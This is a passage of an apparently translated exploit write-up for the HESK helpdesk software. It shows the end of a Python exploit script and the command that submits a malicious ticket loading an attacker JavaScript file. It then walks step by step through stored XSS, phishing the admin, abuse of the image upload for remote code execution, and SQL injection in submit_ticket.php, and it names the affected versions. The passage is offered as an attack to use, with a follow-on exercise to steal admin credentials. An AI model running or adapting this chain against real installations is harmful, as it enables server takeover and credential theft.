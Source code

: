 ```
  payload = sys.argv[2];

  if submitEvilTicket(target, payload):
    print "(+) We successfully sent a gh0st in the envelope"
    print "(+) if target is between version -2019.1.0- and -June 28 2017 Version 3.1.0-"
    print "(+) you should expect great success"

  else:
    print "(-) That failed, check your target path and if they have enabled captcha or equivalent!"
    print "(-) If there is captcha involved do this step through you favorite proxy which is Burp!"
if __name__ == "__main__":
  main()

```  
  
那么它最终是什么样子呢？  
  
我们运行脚本  
```
python ticketXXs.py http://localhost/ http://localhost/js/evil.js
```  
  
这是一个用户非常有限的示例，甚至无法重新分配票证：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6AO6fuA0xFXc2u8KZmwTibmAzFfR9yNfYzGm2BmPAruM6rbqzeNDVwPA/640?wx_fmt=png&from=appmsg "")  
  
受限用户打开新分配的票证，执行 JavaScript - 无法分配管理员，因此自动选择网络钓鱼选项：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6UWib7Ogm7kxXj8sriaia9MZe8wnCpZ1fWH4iaQpovPPGJJ7P8XdVrEj5Ug/640?wx_fmt=png&from=appmsg "")  
  
管理员用户有一条新消息：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6jYJJrKWU2w6oEjwhiacVYL28IWvFnRMhNdKAf8e1jcj1TQicdPMf2eHw/640?wx_fmt=png&from=appmsg "")  
  
管理员用户单击受感染票证的链接：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA67tKOkOltlCVKiamFrOXLN6L9M9GXnY5oQ3ibcmb4AMKrrdUiaZKz1bECw/640?wx_fmt=png&from=appmsg "")  
  
  
管理员有上传UI图片的权限，pwned：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6vV5MB5icEsVY6839C38VkS1PIkINppXyXibKHNKwNWvbN5D0jZG5ARhA/640?wx_fmt=png&from=appmsg "")  
  
远程代码执行：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6Zw5VlNJGQQNy3AxF4r2wxFicQBxmyyftPBiblHjnIFiaCLnTA0f63wZXw/640?wx_fmt=png&from=appmsg "")  
  
请注意，如果目标启用了某种验证码（默认情况下未启用），则此操作将不起作用。但这只是您在需要时通过 Burp 发送的一个请求。最后，还记得submit_ticket.php中的screen_resolution_heightand吗？screen_resolution_width嗯，它们实际上都容易受到 SQL 注入攻击。我们不需要这个漏洞来绕过这里的身份验证。此攻击应该适用于 -2019.1.0- 和 -2017 年 6 月 28 日版本 3.1.0- 之间的 HESK 版本 Mod，因为这些版本容易受到 SQL 注入、XSS 和 RCE 的攻击。  
  
如果 RCE 不适用怎么办？例如，在 3.1.0 以下的版本中，没有 UI 图像上传功能。好吧，我们仍然可以通过会话骑行绕过身份验证。但是如果我们需要以管理员用户身份登录怎么办？这里 SQL 注入向量变得有趣。我将其作为 AWAE 学生（当然还有其他任何人）的练习，利用 SQL 注入将管理员密码哈希添加到票证中，并利用 XSS 窃取数据，为管理员用户构建自动登录令牌。一些提示：  
- 请记住，默认情况下未启用“show useragent”  
  